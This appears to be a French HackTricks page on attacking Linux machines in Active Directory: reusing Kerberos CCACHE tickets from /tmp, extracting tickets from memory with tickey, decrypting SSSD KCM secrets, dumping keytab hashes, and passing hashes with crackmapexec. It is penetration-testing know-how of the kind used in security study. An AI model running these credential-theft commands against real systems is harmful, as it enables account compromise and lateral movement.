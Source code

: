 # Linux Active Directory

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Expert Red Team AWS de HackTricks)</strong></a><strong>!</strong></summary>

* Travaillez-vous dans une **entreprise de cybersécurité**? Voulez-vous voir votre **entreprise annoncée dans HackTricks**? ou voulez-vous avoir accès à la **dernière version du PEASS ou télécharger HackTricks en PDF**? Consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Découvrez [**La famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* **Rejoignez le** [**💬**](https://emojipedia.org/speech-balloon/) [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR au [dépôt hacktricks](https://github.com/carlospolop/hacktricks) et au [dépôt hacktricks-cloud](https://github.com/carlospolop/hacktricks-cloud)**.

</details>

Une machine Linux peut également être présente dans un environnement Active Directory.

Une machine Linux dans un AD pourrait **stocker différents tickets CCACHE à l'intérieur de fichiers. Ces tickets peuvent être utilisés et exploités comme tout autre ticket Kerberos**. Pour lire ces tickets, vous devrez être le propriétaire utilisateur du ticket ou **root** à l'intérieur de la machine.

## Énumération

### Énumération AD depuis Linux

Si vous avez accès à un AD sous Linux (ou bash sous Windows), vous pouvez essayer [https://github.com/lefayjey/linWinPwn](https://github.com/lefayjey/linWinPwn) pour énumérer l'AD.

Vous pouvez également consulter la page suivante pour apprendre **d'autres façons d'énumérer l'AD depuis Linux**:

{% content-ref url="../../network-services-pentesting/pentesting-ldap.md" %}
[pentesting-ldap.md](../../network-services-pentesting/pentesting-ldap.md)
{% endcontent-ref %}

### FreeIPA

FreeIPA est une **alternative** open-source à Microsoft Windows **Active Directory**, principalement pour les environnements **Unix**. Il combine un **annuaire LDAP complet** avec un centre de distribution de clés MIT **Kerberos** pour une gestion similaire à Active Directory. En utilisant le système de certificats Dogtag pour la gestion des certificats CA & RA, il prend en charge l'authentification **multi-facteurs**, y compris les cartes à puce. SSSD est intégré pour les processus d'authentification Unix. En savoir plus à ce sujet dans :

{% content-ref url="../freeipa-pentesting.md" %}
[freeipa-pentesting.md](../freeipa-pentesting.md)
{% endcontent-ref %}

## Manipulation des tickets

### Pass The Ticket

Sur cette page, vous allez trouver différents endroits où vous pourriez **trouver des tickets Kerberos à l'intérieur d'un hôte Linux**, sur la page suivante, vous pouvez apprendre comment transformer ces formats de tickets CCache en Kirbi (le format nécessaire à utiliser dans Windows) et également comment effectuer une attaque PTT :

{% content-ref url="../../windows-hardening/active-directory-methodology/pass-the-ticket.md" %}
[pass-the-ticket.md](../../windows-hardening/active-directory-methodology/pass-the-ticket.md)
{% endcontent-ref %}

### Réutilisation de tickets CCACHE depuis /tmp

Les fichiers CCACHE sont des formats binaires pour **stocker des informations d'identification Kerberos** sont généralement stockés avec des autorisations 600 dans `/tmp`. Ces fichiers peuvent être identifiés par leur **format de nom, `krb5cc_%{uid}`,** correspondant à l'UID de l'utilisateur. Pour la vérification du ticket d'authentification, la variable d'environnement `KRB5CCNAME` doit être définie sur le chemin du fichier de ticket souhaité, permettant sa réutilisation.

Listez le ticket actuel utilisé pour l'authentification avec `env | grep KRB5CCNAME`. Le format est portable et le ticket peut être **réutilisé en définissant la variable d'environnement** avec `export KRB5CCNAME=/tmp/ticket.ccache`. Le format du nom du ticket Kerberos est `krb5cc_%{uid}` où uid est l'UID de l'utilisateur.
```bash
# Find tickets
ls /tmp/ | grep krb5cc
krb5cc_1000

# Prepare to use it
export KRB5CCNAME=/tmp/krb5cc_1000
```
### Réutilisation de ticket CCACHE à partir du trousseau de clés

**Les tickets Kerberos stockés dans la mémoire d'un processus peuvent être extraits**, en particulier lorsque la protection ptrace de la machine est désactivée (`/proc/sys/kernel/yama/ptrace_scope`). Un outil utile à cette fin se trouve sur [https://github.com/TarlogicSecurity/tickey](https://github.com/TarlogicSecurity/tickey), qui facilite l'extraction en injectant dans les sessions et en extrayant les tickets dans `/tmp`.

Pour configurer et utiliser cet outil, les étapes ci-dessous sont suivies :
```bash
git clone https://github.com/TarlogicSecurity/tickey
cd tickey/tickey
make CONF=Release
/tmp/tickey -i
```
Cette procédure tentera d'injecter dans diverses sessions, indiquant le succès en stockant les tickets extraits dans `/tmp` avec une convention de nommage `__krb_UID.ccache`.


### Réutilisation de ticket CCACHE à partir de SSSD KCM

SSSD maintient une copie de la base de données au chemin `/var/lib/sss/secrets/secrets.ldb`. La clé correspondante est stockée en tant que fichier caché au chemin `/var/lib/sss/secrets/.secrets.mkey`. Par défaut, la clé n'est lisible que si vous avez les permissions **root**.

L'invocation de **`SSSDKCMExtractor`** avec les paramètres --database et --key analysera la base de données et **déchiffrera les secrets**.
```bash
git clone https://github.com/fireeye/SSSDKCMExtractor
python3 SSSDKCMExtractor.py --database secrets.ldb --key secrets.mkey
```
Le **blob de cache d'informations d'identification Kerberos peut être converti en un fichier CCache Kerberos utilisable** qui peut être transmis à Mimikatz/Rubeus.

### Réutilisation de ticket CCACHE à partir de keytab
```bash
git clone https://github.com/its-a-feature/KeytabParser
python KeytabParser.py /etc/krb5.keytab
klist -k /etc/krb5.keytab
```
### Extraire des comptes de /etc/krb5.keytab

Les clés de compte de service, essentielles pour les services fonctionnant avec des privilèges root, sont stockées de manière sécurisée dans les fichiers **`/etc/krb5.keytab`**. Ces clés, semblables à des mots de passe pour les services, exigent une confidentialité stricte.

Pour inspecter le contenu du fichier keytab, **`klist`** peut être utilisé. Cet outil est conçu pour afficher les détails de la clé, y compris le **NT Hash** pour l'authentification de l'utilisateur, en particulier lorsque le type de clé est identifié comme étant 23.
```bash
klist.exe -t -K -e -k FILE:C:/Path/to/your/krb5.keytab
# Output includes service principal details and the NT Hash
```
Pour les utilisateurs de Linux, **`KeyTabExtract`** offre une fonctionnalité pour extraire le hachage RC4 HMAC, qui peut être exploité pour réutiliser le hachage NTLM.
```bash
python3 keytabextract.py krb5.keytab
# Expected output varies based on hash availability
```
Sur macOS, **`bifrost`** sert d'outil d'analyse de fichiers keytab.
```bash
./bifrost -action dump -source keytab -path /path/to/your/file
```
En utilisant les informations de compte et de hachage extraites, des connexions aux serveurs peuvent être établies en utilisant des outils tels que **`crackmapexec`**.
```bash
crackmapexec 10.XXX.XXX.XXX -u 'ServiceAccount$' -H "HashPlaceholder" -d "YourDOMAIN"
```
## Références
* [https://www.tarlogic.com/blog/how-to-attack-kerberos/](https://www.tarlogic.com/blog/how-to-attack-kerberos/)
* [https://github.com/TarlogicSecurity/tickey](https://github.com/TarlogicSecurity/tickey)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#linux-active-directory](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#linux-active-directory)

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Expert Red Team AWS HackTricks)</strong></a><strong>!</strong></summary>

* Travaillez-vous dans une **entreprise de cybersécurité**? Voulez-vous voir votre **entreprise annoncée dans HackTricks**? ou voulez-vous avoir accès à la **dernière version du PEASS ou télécharger HackTricks en PDF**? Consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Découvrez [**La famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* **Rejoignez le** [**💬**](https://emojipedia.org/speech-balloon/) [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR au [dépôt hacktricks](https://github.com/carlospolop/hacktricks) et [dépôt hacktricks-cloud](https://github.com/carlospolop/hacktricks-cloud)**.

</details>
